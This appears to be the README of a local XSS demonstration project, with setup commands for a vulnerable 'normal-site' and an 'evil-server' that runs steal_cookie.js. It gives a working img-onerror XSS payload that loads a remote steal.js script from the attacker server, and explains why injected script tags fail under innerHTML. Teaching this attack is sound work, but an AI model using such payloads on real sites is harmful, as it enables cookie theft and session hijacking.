 # How to use this?
+ `cd .\normal-site\ & npm install express body-parser`
+ `node .\app.js`
+ `cd .\evil-server\ & npm install express`
+ `node .\steal_cookie.js`
+ Open browser and visit website at `http://localhost:3000`
+ Try to post your comment on the page, and inspect the changes from browser Network/Elements Tab
Recommended XSS payload: `<img src="x" onerror="const s=document.createElement('script');s.src='http://localhost:4000/steal.js';document.body.appendChild(s);" />`  
Not recommended XSS payload: `<script src="http://localhost:4000/steal.js"></script>`. This is because the limitations of `innerHTML`. The `<script>` tag dynamically inserted through `innerHTML` will be parsed by browser as a text node rather than an executable script.
+ 